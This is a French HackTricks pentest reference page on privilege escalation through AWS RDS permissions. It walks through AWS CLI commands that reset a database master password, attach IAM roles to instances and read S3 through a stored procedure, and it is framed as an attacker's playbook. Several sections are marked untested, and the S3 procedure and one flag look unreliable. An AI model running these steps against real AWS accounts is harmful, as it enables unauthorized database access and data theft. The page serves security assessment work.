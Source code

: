 # AWS - RDS Privesc

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## RDS - Relational Database Service

Pour plus d'informations sur RDS, consultez :

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Avec cette permission, un attaquant peut **modifier le mot de passe de l'utilisateur principal** et la connexion à l'intérieur de la base de données :

```bash
# Obtenir le nom d'utilisateur de la base de données, le nom de la base de données et l'adresse
aws rds describe-db-instances

# Modifier le mot de passe et attendre quelques minutes
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# En cas de postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Vous devrez être en mesure de **contacter la base de données** (elles sont généralement accessibles uniquement depuis les réseaux internes).
{% endhint %}

**Impact potentiel :** Trouver des informations sensibles à l'intérieur des bases de données.

### rds-db:connect

Selon la [**documentation**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utilisateur disposant de cette permission pourrait se connecter à l'instance de la base de données.

### Abus des autorisations IAM de rôle RDS

{% hint style="info" %}
TODO: Test
{% endhint %}

Il est possible de générer une procédure stockée qui abuse du rôle RDS pour accéder à d'autres services AWS. Par exemple, pour lire un bucket S3 :

```sql
DELIMITER $$
CREATE PROCEDURE get_s3_object(IN bucket_name VARCHAR(255), IN object_key VARCHAR(255))
BEGIN
    -- Utiliser les variables d'environnement pour définir les informations d'identification AWS
    SET @aws_access_key_id = @@global.rds_aws_access_key_id;
    SET @aws_secret_access_key = @@global.rds_aws_secret_access_key;
    SET @aws_session_token = @@global.rds_aws_session_token;

    -- Définir le bucket S3 et la clé d'objet
    SET @bucket = bucket_name;
    SET @key = object_key;

    -- Lire l'objet du bucket S3
    SET @query = CONCAT("SELECT * FROM S3_OBJECT('",
                        "region=us-west-2;",
                        "bucket=", @bucket, ";",
                        "key=", @key, ";",
                        "access_key_id=", @aws_access_key_id, ";",
                        "secret_access_key=", @aws_secret_access_key, ";",
                        "session_token=", @aws_session_token, ";",
                        "')");

    PREPARE stmt FROM @query;
    EXECUTE stmt;
    DEALLOCATE PREPARE stmt;
END$$
DELIMITER ;
```

Exécutez la procédure stockée pour **lire l'objet du bucket S3** :

```sql
CALL get_s3_object('my-bucket', 'my-object-key');
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant disposant des autorisations `rds:CreateDBInstance` et `iam:PassRole` peut **créer une nouvelle instance RDS avec un rôle spécifié attaché**. L'attaquant peut ensuite potentiellement **accéder à des données sensibles** ou modifier les données à l'intérieur de l'instance.

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impact potentiel :** Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant disposant des autorisations `rds:AddRoleToDBInstance` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données à l'intérieur de l'instance.

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impact potentiel :** Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>